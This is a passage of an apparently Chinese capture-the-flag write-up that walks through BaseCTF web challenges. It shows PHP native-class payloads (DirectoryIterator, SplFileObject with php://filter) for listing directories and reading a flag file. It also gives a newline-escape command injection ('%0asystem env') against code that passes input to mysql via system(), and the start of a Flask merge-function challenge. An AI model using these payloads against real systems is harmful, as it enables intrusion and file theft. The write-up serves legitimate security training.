 ```php
echo new $J1ng($Hong);
?>
```

两处关键点：`$dir = new $Keng($Wang);`和`echo new $J1ng($Hong);`

原生类第一次使用，扫描文件夹并打印
```php
foreach($dir as $f) {
    echo($f . '<br>');
}
```

`payload：?K=DirectoryIterator&W=/secret`

拿到flag文件名`f11444g.php`

原生类第二次使用，读取文件内容

`payload：J=SplFileObject&H=php://filter/convert.base64-encode/resource=/secret/f11444g.php`

## [Fin] RCE or Sql inject 【复现】

题目源码

```php
<?php
highlight_file(__FILE__);
$sql = $_GET['sql'];
if (preg_match('/se|ec|st|;|@|delete|into|outfile/i', $sql)) {
    die("你知道的，不可能有sql注入");
}
if (preg_match('/"|\$|`|\\\\/i', $sql)) {
    die("你知道的，不可能有RCE");
}
$query = "mysql -u root -p123456 -e \"use ctf;select 'ctfer! You can\\'t succeed this time! hahaha'; -- " . $sql . "\"";
system($query); 
```

题目提示，在mysql里输入问号，会提示关于题目的解法。题目的sql语句最后把拼接部分注释了，使用换行逃逸出来

![12](https://the0n3.top/medias/basectf/12.png)

mysql执行`?`的回显`system (\!) Execute a system shell command.`，在mysql里可以直接使用system执行系统命令

那这题就可以直接`url?sql=%0asystem env`

![121](https://the0n3.top/medias/basectf/121.png)

## [Week4] 圣钥之战1.0  【复现】

在read路由下源码
```python
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
```
